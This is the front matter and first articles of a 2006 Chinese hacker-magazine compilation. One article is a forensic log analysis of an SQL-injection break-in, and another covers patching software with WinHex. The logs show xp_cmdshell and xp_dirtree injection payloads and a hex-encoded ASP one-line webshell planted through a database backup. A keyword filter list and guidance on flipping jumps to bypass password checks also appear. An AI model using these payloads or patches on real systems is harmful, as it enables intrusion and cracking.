# 黑客防线2006精华本（上）

---

# 黑客2006精华集成大典

## 《黑客防线》编辑部 编（上册）

透视黑客技术发展焦点，把握攻防技术跳动脉搏

- 6大全新技术专题文章
- 30套黑客必备工具
- 50个安全漏洞分析
- 100篇黑客入侵事件跟踪
- 300个高清晰操作录像
- 1200MB高容量黑客攻防视频光盘


## 黑客秘笈



## 2006精华集萃本

《黑客防线》编辑部 编（上册）

人民邮电出版社  
POSTS & TELECOM PRESS

## 图书在版编目（CIP）数据

黑客防线2006精华奉献本 /《黑客防线》编辑部编.  
北京：人民邮电出版社，2006.1  
ISBN 7-115-14174-6

I. 黑…  II. 黑…  III. 计算机网络－安全技术－文集  IV. TP393.08－53

中国版本图书馆CIP数据核字（2005）第137165号

## 内容提要

《黑客防线2006精华奉献本》是《黑客防线》总第49期到第60期的精华文章摘要，杂志“在攻与防的对立统一中寻求突破”完美理念地体现在本书中。全书按攻防对立的关系，分为上、下两册，并附带2张包含1200MB安全技术录像的光盘。文章通俗易读，图文并茂，易于大家理解和阅读。在栏目划分上，本书选取了网络安全技术上最热门、读者最喜欢的各大栏目，典型的有脚本攻击/脚本攻击防范，漏洞攻击/漏洞攻击防范，黑器攻击/黑器防范等，并增加了全新的专题文章，同时还选取了国内首创的“新手学溢出”栏目中的精品文章，适合各层次读者学习的需要。

本书适合各在校学生、网络管理员、安全公司从业者和黑客技术爱好者阅读。

## 黑客防线2006精华奉献本（上册）

| 项目 | 内容 |
|---|---|
| 编 | 《黑客防线》编辑部 |
| 责任编辑 | 魏雪萍 |
| 出版发行 | 人民邮电出版社发行　北京市崇文区夕照寺街14号A座（100061） |
| 读者热线 | 010-62141445-8031 |
| 印刷 | 中煤涿州制图印刷厂 |
| 经销 | 全国各地新华书店 |
| 开本 | 782×1092　1/16 |
| 印张 | 36 |
| 字数 | 3800千字 |
| 版次印次 | 2005年12月第1版　2005年12月北京第1次印刷 |
| ISBN | 7-115-14174-6/TP·5074 |
| 定价 | 全套（含上下册）35.00元（附双光盘） |

本书如有印刷质量问题（错页、掉页、残页等），请您与我们联系，我们负责调换。  
联系电话：010-62141446　E-mail: yougoubu@hacker.com.cn  
图文版权所有，未经同意不得转载、翻印。

### 致读者的话

随着网络技术的不断进步，中国互联网迎来了第一次发展高峰，多家中国企业竞相在境外上市，如百度这样的公司更是一夜造就一个富翁的团队，大批电子商务类公司开始获利，网络经济再次成为世界瞩目的焦点。但是，随着大大小小网站的迅速建立，网络安全成为摆在大家面前的重要问题。钓鱼式攻击、信息泄漏、网站数据被篡改、蠕虫、垃圾邮件……这些都成为制约网络经济发展的绊脚石。了解黑客技术，掌握黑客防范知识已经成为各系统管理员和普通网民不可忽略的重要内容。

在这样的环境下，我们提出了“在攻与防的对立统一中寻求突破”的理念，从创刊以来不断为业界和网络安全技术爱好者提供最新、最实用的黑客知识，为读者们学习黑客、防御黑客开放了一个睿智而稳定的窗口。作为中国最早的互联网安全杂志之一，6年来黑防一直在努力，期间经过两次改版，从最早的书加光盘到攻防两册月刊，到现在的“攻防统一”。我们紧跟时代步伐，力争为众多网络安全爱好者提供更好的杂志。其中《黑客防线》偏重于有基础的读者，已经与《黑客防线》合并的《黑客在线》则更适合没有基础的新人阅读。

应广大读者的要求，《黑客防线》杂志社和人民邮电出版社共同合作，策划了这本《黑客防线精华奉献本2006》。版块有最新奉献、专题企划、漏洞、脚本、黑器、网管、溢出等，上下两册，内容精选《黑客防线》优秀文章，希望给一直关心和支持黑防的读者以超值的享受。光盘中300多个精选黑客录像更是囊括了攻防实例、QQ密技、漏洞探幽、入侵实例、脚本入侵、免费网娱和各种木马后门的使用和防范技巧。

同时，在2005年年底，《黑客防线》官方网站（www.hacker.com.cn）进行了大规模改版，以前以杂志为中心的我们开始让网站和杂志同步出击：黑客新闻、技术文章、最新黑软、入侵动画等系列黑客资源强档推出，并成立黑客技术研究组，针对最新漏洞发布最新研究文章；成立黑客新闻采集组，深度挖掘黑客事件并在第一时间曝光内幕；成立专业入侵动画组，将最新漏洞与入侵技术即时整理录像并公布。现在登录《黑客防线》官方网站，每天都可以看到最新的攻防录像、后门木马、攻击和防护程序、业界安全新闻等。最重要的是，新推出的VIP会员制度给希望有专人指导、学习黑客技术的朋友们带了希望，24小时的E-mail技术支持、QQ技术支持、24小时的电话和手机短信技术支持、每周的语音授课、Windows网络攻防班、Linux网络攻防班、C语言网络编程班等，满足了各种要求的读者需求……各种专门特制的黑客工具包、VIP文章、VIP论坛、信箱、QQ群、Blog等，让喜爱黑客技术的朋友有了近距离交流和快速提高技术水平的机会。

在这里，我们再次感谢广大读者和作者对我们的支持，感谢人民邮电出版社，让所有喜欢上网、想了解网络安全的读者们看到了我们的书籍，也给更多需要熟悉黑客攻防的人提供了技术资料，以此能进一步地提高国内网络安全的整体水平。另外，我们也欢迎各位黑客技术爱好者登录我们的官方网站http://www.hacker.com.cn。新改版的《黑客防线》将为你提供业内最新的资讯和黑客工具，同时我们的论坛也继续为您提供服务，你可以在论坛上将你的问题和技术资料和大家共享，编辑和其他黑客爱好者会在第一时间给予答复，共同解决网络安全问题，让我们共同分享网络安全道路上的酸甜苦辣吧！

## 黑客防线2006精华奉献本

### 目录（上册）

## 最新奉献

- 充分利用Web日志分析入侵的案例 …… 1
- 破解军刀——WinHex特异功能大曝光 …… 4
- 用搜索引擎找自己想要的肉鸡（桃源网络硬盘漏洞利用）…… 11

### 专题企划

- CCL创造菜鸟打造免杀黑器神话 …… 13
- 你是鱼？还是钓者？——钓鱼式攻击中欺骗和伪造的艺术 …… 20
- 唐山黑客攻击北京网站技术内幕 …… 29
- 国产木马新秀PcShare …… 36
- 来自魔兽的怒吼——记一次反击盗号者的经历 …… 39

#### 漏洞攻防追踪

- 2005年黑客聚焦——追踪垃圾邮件 …… 42
- 充Q币的疯狂——宽带下的安全 …… 45
- 三招确定WWW服务类型 …… 47
- 也谈《Dreamweaver引发网络危机》 …… 48
- 初探MSSQL口令加密 …… 49
- 反黑之路——入侵、分析加防护 …… 50
- 去黑防钓鱼 …… 52
- 从电信角度看宽带安全 …… 54
- Q0msgMyRun病毒分析 …… 56
- PPPoE验证的隐患与利用 …… 59
- 防住Word中的恶意宏代码 …… 61
- 一波N折的QQ报复纪实 …… 63
- 用肉鸡和灰鸽子实现内网通 …… 65
- 手动查杀顽固的desktop.ion …… 66
- 万元话费如何产生？——剖析手机黑客的技俩 …… 67
- 浅谈个人信息泄漏 …… 68
- 巧用加密工具突破邮箱附件限制 …… 69
- 黑防毒钓日记 …… 70
- 教你实现FTP协议 …… 72
- 简单打造蠕虫病毒专杀工具 …… 75
- 笨猫，你完蛋了！——ADSL终结者 …… 77

#### 脚本攻击防范

- 不客漏洞击溃灰鸽子官方主站 .......... 78
- 模拟入侵20NT计算机网络安全小组 .......... 80
- 让ASP自动防护脚本注入 .......... 82
- 网站火了，黑客来了——对某IT资讯网站的安全测试 .......... 83
- JSP论坛安全之旅 .......... 84
- 系统设置搞定脚本安全 .......... 88
- 程序员的反击——活用ASP语句实现页面访问保护 .......... 90
- 利用Session欺骗构造最隐蔽的WebShell .......... 91
- PHP代码安全点滴 .......... 93
- 通过ASP远程备份/恢复数据库 .......... 95
- 编写安全的ASP.NET代码 .......... 96
- PHP漏洞中的战争 .......... 97
- MySQL批量导入+执行 .......... 100
- 从某名牌大学网站被挂马说起 .......... 102
- 关于Dvbbs6.0的设计缺陷 .......... 105
- 最短的ASP病毒 .......... 106
- 从PHP论坛漏洞管窥安全管理 .......... 107
- 让gov网站模板为己用 .......... 109
- ASP.NET安全编程完美解决方案——《浅谈ASP.NET安全编程》再续 .......... 111
- 来自对青岛大学的安全检测 .......... 112
- 轻松追查攻击来源——Whois.Aspx查询系统 .......... 115
- 玩残注入狂 .......... 117

#### 黑客攻击防范

- 我写CC的思路及防范方法 .......... 118
- 利用Trap Server诱骗黑客 .......... 119
- 用Spybot抗衡钓鱼式攻击 .......... 121
- 其实我也很强大——IIS另类后门 .......... 122
- 修改特征码打造免杀后门之灰鸽子篇——DLL释放型后门的特征码修改 .......... 125
- 防泄密，从Word开始 .......... 128
- Citrix安全性分析 .......... 131
- 让卡巴斯基的怪癖不再烦你 .......... 132
- 国人的骄傲——数据恢复大师测试手记 .......... 133
- 对付HackerDefender新招RootkitRevealer .......... 135
- 快速切换网络配置的好工具——IP Changer .......... 136
- 巧用代理猎手揪出局域网中的二级代理 .......... 137
- 巧用Windows优化大师捉拿木马 .......... 138
- 移花接木之巧借“CNNIC中文上网”保护木马 .......... 139
- 明察秋毫的局域网监控软件PMS .......... 140
- 多面刺客Spy4Win试用手记 .......... 142
- 我的电脑我掌握——KPNLog记录者 .......... 144
- 用FlashFXP修改目录权限 .......... 145
- 5万月薪，我离你还有多远？ .......... 146

## 新手学溢出

- 菜鸟版Exploit编写指南之八：采众家之长分析及改进Gmail漏洞 …… 149
- 编写变形的ShellCode实战篇 …… 152
- 菜鸟版Exploit编写指南之九：从MS03-049漏洞利用看调试系统进程 …… 154
- 菜鸟版Exploit编写指南之十：分析和利用W32Dasm溢出漏洞 …… 156
- 菜鸟版Exploit编写指南之十一：玩转Winamp漏洞 …… 160
- 菜鸟版Exploit编写指南之十二：RealPlayer溢出分析+利用 …… 163
- 菜鸟版Exploit编写指南之十三：我来写ShellCode生成器 …… 166
- 打造Down&Exec的ShellCode …… 168
- 菜鸟版Exploit编写指南之十四：Windows整数溢出初步 …… 170
- 菜鸟版Exploit编写指南之十五：Realplay.smil文件溢出漏洞分析（续） …… 173
- 菜鸟版Exploit编写指南之十六：突破溢出数据包长度限制——编写分段传送的ShellCode（上） …… 174
- 菜鸟版Exploit编写指南之十七：突破溢出数据包长度限制——编写分段传送的ShellCode（下） …… 176
- 菜鸟版Exploit编写指南之十八：PNP溢出漏洞分析+利用 …… 179

## 网管夜话

- 解决Windows XP SP2常见系统故障 …… 182
- 量身定制网管软件 …… 185
- 在VPN网络中实现互访网上邻居 …… 187
- 域内批量分发注册表设置 …… 189
- 阻断基于PcAnyWhere的攻击方法 …… 191
- 在防火墙后禁用MSN …… 193
- 配置安全服务器抵御流行攻击 …… 195
- 为网上邻居配个垃圾桶 …… 199
- 曲径通幽：珠联璧合的Firewall与Router …… 200
- 用ISA2004配置标准的Web/FTP服务器 …… 203
- 与魔鬼共舞——利用Devil-Linux打造安全SOHO服务器 …… 207
- Webmin：让Linux远程管理也轻松 …… 210
- 用天网揪出电子书中的木马 …… 211
- 玩转Linux防火墙 …… 212
- Tomcat集群实现负载均衡 …… 215
- Webmin：方便的Linux安全管理工具 …… 222
- TCPDump让Linux网管更轻松 …… 225
- 改善VPN网络速度的新方法 …… 228
- 开源系统入侵检测指南 …… 231
- Windows 2000构建单网卡网络防火墙 …… 232
- 突破交换机IOS恢复速度 …… 234
- 将CNNIC中文上网插件连根拔起 …… 235
- 解剖QQ蠕虫 …… 237
- 让Windows和最新MAC系统共存 …… 240
- 巧妙收集入侵Windows系统的证据 …… 242
- 网吧常掉线故障的解决 …… 244
- 挖掘隐藏VNC的安全隧道 …… 246
- Windows 2003也玩传真共享 …… 249

适合读者：程序员，系统安全研究者  
前置知识：Windows系统基础

## 充分利用Web日志分析入侵步骤剖析

文／图 heata

笔者在2005年10月的一天接到朋友电话，说他们发现公司一台对外服务器受到病毒攻击。本人就是心软，并且受人之托没有办法，朋友有难只有挺身而出了。虽然自己算个超级菜鸟，也只有试试啦。

#### 一、初步勘查

一个小时后我放下自己的工作来到现场，开始检查服务器的各种设置，发现服务器中有5个页面被修改，在被修改的5个文件末尾添加了`<iframe>`项。这样，所有点击这5个页面的客户计算机，如果没有安装最新的杀毒软件，就会弹出一个小窗口，请点击“×××”网站。该网站是一个暗藏灰鸽子木马的站点；一旦用户点击就会在用户电脑上运行灰鸽子木马，成为一台肉鸡。

看来攻击者还真狠呢！第一时间我们这些菜鸟保存了被修改的文件，同时及时恢复了5个文件，保证了系统的正常运行，免得我朋友挨骂了。

通过查看5个文件的修改时间，我们发现是2005年10月9日12:27，这样我们又备份了这段时间内的Web日志。打开10月9日的系统日志，我们发现在这段时间内只有“search.aspx”程序被调用。下面是当时的日志：

```log
2005-10-9 12:27:01 GET /html/2005/05/20050520091218.shtml ...
2005-10-9 12:27:44 GET /pub/search.aspx searchbox=...&BigClassID=12 ...
2005-10-9 12:27:59 GET /html/2005/05/20050520105937.shtml ...
```

据此日志初步认为是“search.aspx”的查询不规范，攻击者利用长的脚本输入攻击，导致修改了5个页面。因此，我们复制了“search.aspx”的源代码，为进一步的分析用。

- （其实当时的日志分析不正确，我们把时间推后了8个小时。由于该Web服务器日志时间采用的是格林尼治标准时间，所以有8个小时的时差。这也是一个教训了。）
- 回到家，我分析了10月9日12:00~13:00的所有日志，并且将Unicode编码一一解码成中文，这样还是没有发现什么漏洞，用户访问的还是一些基本信息。
- 同时我们分析了“search.aspx”文件的源代码，发现两个文件没有什么输入检验；但是在“search.aspx”文件中第三行中有这样的语句`Codebehind="search.aspx.vb"`，因此判断这里可能有输入检验，没有证实。

到此时的结论是：攻击者的水平比较高，修改了Web日志，没有攻击的痕迹留下；他利用“search.aspx”中的不完整校验，成功地进行了5次攻击，修改了5个页面。如果当时这样交差，朋友肯定会说我是个大笨蛋啦。

#### 二、重点分析

10月10日，我和朋友交换意见时，提到了是不是有日志时间推后的问题，才发现原来有8个小时的时差。我赶紧分析了10月9日的所有日志，重点分析了当日4:00~6:00期间的。分析中发现有几条日志十分可疑，具体如下：

```log
2005-10-9 04:58:39 GET /new.asp Action=MainMenu ...
2005-10-9 04:58:39 GET /new.asp Action=ShowFile ...
2005-10-9 04:58:41 POST /new.asp ...
2005-10-9 04:58:41 GET /new.asp Action=MainMenu ...
2005-10-9 04:58:41 GET /new.asp Action=ShowFile ...
```

`new.asp`中调用`Action=ShowFile`的方法，这个十分可疑。我马上按照日志打开“http://bb.*.com/new.asp”，原来是个Web后门页面，中间一个输入框，旁边一个按钮。很明显这是一个严重的后门漏洞，在不明白原因的情况下，我立即通知了朋友，请求清除该页面。

这样我决定追根溯源，打开10月9日的日志，发现访问该页面的只有一个用户，就是“202.99.*.*”。通过查询，确定该用户是“××电信”下面的一台计算机，同时我们进行了连通测试，结果如下：

```text
C:\>ping 202.99.*.*
Pinging 202.99.*.* with 32 bytes of data:
Reply from 202.99.*.*: bytes=32 time=375ms TTL=52
Reply from 202.99.*.*: bytes=32 time=234ms TTL=52
Reply from 202.99.*.*: bytes=32 time=188ms TTL=52
Reply from 202.99.*.*: bytes=32 time=141ms TTL=52

Ping statistics for 202.99.*.*:
Packets: Sent = 4, Received = 4, Lost = 0 (0% loss),
Approximate round trip times in milli-seconds:
Minimum = 141ms, Maximum = 375ms, Average = 234ms
```

## 最新奉献 / NEW TOPIC

（栏目编辑/刘流）liuliu@hacker.com.cn

好家伙，“坏蛋”一直在绕呢！我在朋友的帮助下，再次查看了“new.asp”的创建时间，结果如图1所示。我朋友将“new.asp”改名为“savenewsa1.asp”，创建时间为2005年10月9日12:53:33。我们再次分析了从当日到最近的所有日志，发现只有三天的访问记录，具体解释如下：



图1

10月9日的访问大约8分钟，时间是中午12:52分开始，具体如下：

```text
2005-10-9 04:52:57 GET /haopengyou.asp ...
2005-10-9 04:53:33 POST /haopengyou.asp ...
2005-10-9 04:53:33 GET /new.asp ...
...
2005-10-9 04:59:55 POST /new.asp ...
```

10月10日的访问大约5分钟，具体如下：

```text
2005-10-10 04:41:36 GET /new.asp ...
...
2005-10-10 04:41:41 GET /new.asp Action=ShowFile ...
```

10月10日的访问分为两个部分，具体如下。我们的访问：

```text
2005-10-09 08:57:53 GET /new.asp ...
2005-10-09 08:58:01 POST /new.asp ...
```

我朋友的访问：

```text
2005-10-09 09:01:02 GET /new.asp ...
2005-10-09 09:03:45 GET /new.asp ...
```

从以上可以看出，攻击者在10月9日和10日的访问都成功，接着就是我和我朋友的访问了。  
我和朋友打开了“new.asp”源文件，发现这是一个危险的后门页面，它可以完成文件的复制、修改和数据查询等功能。但是攻击者只使用了两个功能，调用了两个方法“Action=MainMenu”和“Action=ShowFile”，所以只修改了5个页面。

我们还发现该攻击者的第二个请求是访问“/haopengyou.asp”，服务器返回500，代表内部服务器错误。在这里造成了服务器的错误响应，估计是在这里注入了new.asp木马页面。到此我们可以松一口气了^^，可是我朋友还不放弃，继续努力吧！

我们再次对日志文件进行分析，终于获得重大发现。攻击者第一次访问服务器的时间是2005-10-9 04:49:02，访问页面带有SQL注入痕迹。我们对其解码，再次证明了我们的结论。下面细细分析。

首先进行攻击探测。

```text
2005-10-9 04:49:06 GET ...&BigClassID)=2 and 1=1 ... - 500 ...
```

猜解数据库名称：

```text
2005-10-9 04:49:06 GET ... and (Select count([name]) from [master]..[sysobjects])>=0 ... - 500 ...
然后SQL类型转换，这里的“0x730079007300610064006D0069006E00”代表的是“sysadmin”。
2005-10-9 04:49:06 GET ... Cast(IS_SRVROLEMEMBER(...)) ... - 500 ...
```

创建一个表，查看C盘下所有文件和目录，然后删除痕迹。

```text
2005-10-9 04:49:29 GET ...;CREATE TABLE [X_9010] ...
insert into [X_9010](ResultTxt) EXEC MASTER..XP_CMDSHELL 'Dir C:\';
...
2005-10-9 04:49:30 GET ... (Select Top 1 CASE WHEN ResultTxt is Null then '' else ResultTxt+'' End ...)
2005-10-9 04:49:30 GET ...;DROP TABLE [X_9010]; use master; ...
```

再次创建该表，运行 `netstat -an` 命令，查看服务器的开放端口，然后删除痕迹。

```text
2005-10-9 04:49:37 GET ...&BigClassID=2; CREATE TABLE [X_9010] ...
insert into [X_9010](ResultTxt) EXEC MASTER..XP_CMDSHELL 'netstat -an' ...
exec master..sp_dropextendedproc 'xp_cmdshell' ...
...
2005-10-9 04:49:37 GET ... use master dbcc addextendedproc('xp_cmdshell','xplog70.dll') ...
...
2005-10-9 04:49:37 GET ... (Select Top 1 CASE WHEN ResultTxt is Null then '' else ResultTxt+'' End ...)
```

> （……省略很多类似行）

```text
2005-10-9 04:49:38 GET ... (Select Top 1 CASE WHEN ResultTxt is Null then '' else ResultTxt+'' End ...)
2005-10-9 04:49:38 GET ...; DROP TABLE [X_9010]; use master dbcc addextendedproc('xp_cmdshell','xplog70.dll') ...
```

利用同样的原理查看了D盘、E盘和E:\Webroot\下面的所有文件，发现了发布路径。

```text
2005-10-9 04:50:02 GET ...; DROP TABLE D99_Tmp; CREATE TABLE D99_Tmp(subdirectory nvarchar(256) NULL,depth tinyint NULL,[file] bit NULL); DELETE D99_Tmp; Insert D99_Tmp exec master..xp_dirtree 'D:\',1,1; ...
2005-10-9 04:50:02 GET ... (Select +Cast(Count(1) as varchar(8000))+| From D99_Tmp)=0 ...
2005-10-9 04:50:07 GET ... xp_dirtree 'E:\',1,1; ...
2005-10-9 04:50:07 GET ... (Select +Cast(Count(1) as varchar(8000))+| From D99_Tmp)=0 ...
2005-10-9 04:50:09 GET ... xp_dirtree 'E:\Webroot\',1,1; ...
2005-10-9 04:50:09 GET ... (Select +Cast(Count(1) as varchar(8000))+| From D99_Tmp)=0 ...
```

最后查看了F盘，没有收获，因为服务器没有F盘。

```text
2005-10-9 04:50:49 GET ...&BigClassID=2; DROP TABLE D99_Tmp; CREATE TABLE D99_Tmp(...) ; DELETE D99_Tmp; Insert D99_Tmp exec master..xp_dirtree 'F:\',1,1; ...
```

以数据库用户DBO身份，插入后门数据，这里的两个变量注入：

- `0x3C2565786563757465207265717565737428224E6565616F2229253E` 翻译为 `<%execute request("neeao")%>`
- `0x453A5C776562726F6F745C6B616F2E617370` 翻译为 `E:\webroot\haopengyou.asp`

```text
2005-10-9 04:51:46 GET ...; Drop table [huipeng]; create table [dbo].[huipeng]([cmd] [image]) ...
2005-10-9 04:51:46 GET ...; insert into huipeng(cmd) values(0x3C2565...) ...
2005-10-9 04:51:46 GET ...; declare @a sysname,@s varchar(4000) select @a=db_name(),@s=0x453A... backup database @a to disk=@s WITH DIFFERENTIAL,FORMAT ...
2005-10-9 04:51:46 GET ...; Drop table [huipeng] ...
```

最后攻击者查看注入是否成功，看来黑客是个稳妥人。

```text
2005-10-9 04:52:27 GET ...; DROP TABLE D99_Tmp; CREATE TABLE D99_Tmp(...); DELETE D99_Tmp; Insert D99_Tmp exec master..xp_dirtree 'E:\webroot\',1,1; ...
2005-10-9 04:52:27 GET ... (Select +Cast(Count(1) as varchar(8000))+| From D99_Tmp)=0 ...
2005-10-9 04:52:27 GET ... (Select Top 1 +Cast([file] as varchar(8000))+subdirectory+| From (Select Top 1 [subdirectory],[file] From D99_Tmp ORDER BY [file],[subdirectory]) D ORDER BY [file] desc,[subdirectory] desc)=0 ...
```

> （……省略）

```text
2005-10-9 04:52:29 GET ... (Select Top 1 +Cast([file] as varchar(8000))+subdirectory+| From (Select Top 39 [subdirectory],[file] From D99_Tmp ORDER BY [file],[subdirectory]) D ORDER BY [file] desc,[subdirectory] desc)=0 ...
```

攻击者查看服务器是否正常。

```text
2005-10-9 04:52:45 GET /default.shtml ... Mozilla/4.0+(compatible;+MSIE+6.0;+Windows+NT+5.0) -- 200 ...
```

攻击完成，开始打开后门页面“new.asp”进行脚本攻击。

```text
2005-10-9 04:52:57 GET /haopengyou.asp ...
类型不匹配, "execute" ... Mozilla/4.0 ...
2005-10-9 04:53:33 POST /haopengyou.asp ...
2005-10-9 04:53:33 GET /new.asp ...
```

……省略很多类似行。我的过程讲完，该总结了。

#### 三、总结判断

根据以上我们这些菜鸟对该服务器日志的分析，可以得出以下结论。

- 对攻击方法的结论
- 对攻击者的结论

这是一次典型的利用SQL数据库验证漏洞的注入入侵。攻击者使用的是SQL攻击工具，在短时间内提交了大量链接请求；后门请求采用了POST方法，GET提交会被IIS记录，而POST提交通常不记录，因此难以完整追踪。

攻击者没有充分利用 `new.asp` 后门页面，仅使用其中少量功能，采用较为简单的方法，没有造成更大损害。根据时间与IP特征推测，攻击行为可能来自固定主机，且多在中午时段实施。

#### 四、防护措施

SQL注入主要针对存在安全漏洞的数据访问代码。攻击者可构造SQL输入篡改查询或执行额外语句。应重点修复身份认证、查询页（如 `/pub/search.aspx`）等位置，过滤危险字符与关键字，避免再次发生数据库注入攻击。

| 关键词 | 关键词 | 关键词 | 关键词 | 关键词 |
|---|---|---|---|---|
| net user | xp_cmdshell | /add | exec master.dbo.xp_cmdshell | char |
| select | count | asc | net localgroup administrators | mid |
| ' | ; | " | insert | % |
| drop table | truncate | from | delete from | update |

适合读者：网民、破解爱好者  
前置知识：无

## 破解之刀

### WinHex 精彩功能大曝光



WinHex 是一款文件与磁盘编辑软件，体积小、速度快、功能强，常用于文件替换、运算、比对和分析。文中强调其除常见用途外，在逆向与功能修改方面也有较强能力。

文章以QQ登录口令为例说明：通过定位关键跳转逻辑并修改汇编条件跳转（如 `je/jz` 与 `jne/jnz`）可改变程序判断流程，从而影响原有“密码正确/错误”分支。

WinHex能直接用于修改软件。其原理是：WinHex可打开可执行文件并编辑其十六进制内容。由于计算机文件本质上以二进制存储，借助十六进制编辑与反汇编思路，可以分析并定位程序关键位置。

文中还提到可利用WinHex的“比较”功能，对比被修改前后的文件差异，从不同字节处反推修改点，从而达到修补或定位目标代码的目的。

另外，WinHex的内存编辑功能可用于分析注册码校验过程：输入的注册码与程序计算出的正确注册码在内存中比较。通过内存搜索与邻近定位，有机会找到关键校验数据。

WinHex 11.2 SR-1 汉化版下载地址：`http://sq3.onlinedown.net/down/HA_WHex11_2SR1_ZQ.rar`。

## 一、关闭危险的135端口

针对Windows 2000/XP的RPC漏洞传播问题，可通过修改系统相关DLL（如 `rpcss.dll`）中对应十六进制字符串实现端口行为调整，以降低135端口风险。

操作方法示例：用WinHex打开 `system32` 下 `rpcss.dll`，查找十六进制串 `31003300035`（文中写法），并替换为 `3000300030` 后另存为新文件。

